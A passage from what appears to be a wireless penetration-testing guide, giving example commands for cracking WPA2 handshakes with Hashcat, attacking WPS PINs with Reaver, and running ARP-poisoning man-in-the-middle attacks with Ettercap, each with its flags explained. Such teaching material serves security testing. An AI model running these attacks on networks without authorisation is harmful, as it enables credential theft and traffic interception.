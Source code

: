 #### 11.1 Hashcat

- Purpose: A GPU-accelerated password recovery tool. Can crack WPA/WPA2 handshakes offline using PMKID or captured 4-way handshakes.
- Common Usage:
  1. Convert `.cap` handshake to `hccapx` or `.hc22000` format (e.g., via `cap2hccapx` or `hcxpcapngtool`).
  2. Run Hashcat with a wordlist or rules.

Example (WPA2 cracking):

```bash
hashcat -m 22000 handshake.hc22000 /usr/share/wordlists/rockyou.txt -w 3 --force
```

- `-m 22000`: Hash mode for WPA-PMKID-PBKDF2 or WPA-EAPOL-PBKDF2.
- `handshake.hc22000`: The converted capture file.
- `-w 3`: Workload profile (3 is a balanced approach).
- `--force`: Force Hashcat to run even if some warnings appear.

#### 11.2 Reaver

- Purpose: Exploits the WPS PIN vulnerability to obtain the WPA(2) passphrase.

- Example:

  ```bash
  reaver -i wlan0mon -b 00:11:22:33:44:55 -c 6 -vv -K 1
  ```

  - `-i`: Interface (in monitor mode).
  - `-b`: Target BSSID.
  - `-c`: Channel.
  - `-vv`: Very verbose output.
  - `-K 1`: Enables small diff WPS P/N switch for speed improvement. (Parameters may differ based on Reaver version.)

#### 11.3 Ettercap

- Purpose: A comprehensive suite for man-in-the-middle (MITM) attacks and network sniffing, including ARP poisoning.

- Example

  (ARP poisoning in a wireless network):

  ```bash
  # Enable IP forwarding first (on Linux):
  echo 1 > /proc/sys/net/ipv4/ip_forward
  
  # Then run Ettercap:
  ettercap -T -i wlan0 -M arp /192.168.1.10// /192.168.1.1//
  ```

  - `-T`: Text mode.
  - `-i wlan0`: Interface to use (wireless).
  - `-M arp`: ARP poisoning MITM.
  - `/192.168.1.10//`: Target host.
  - `/192.168.1.1//`: Gateway or router.
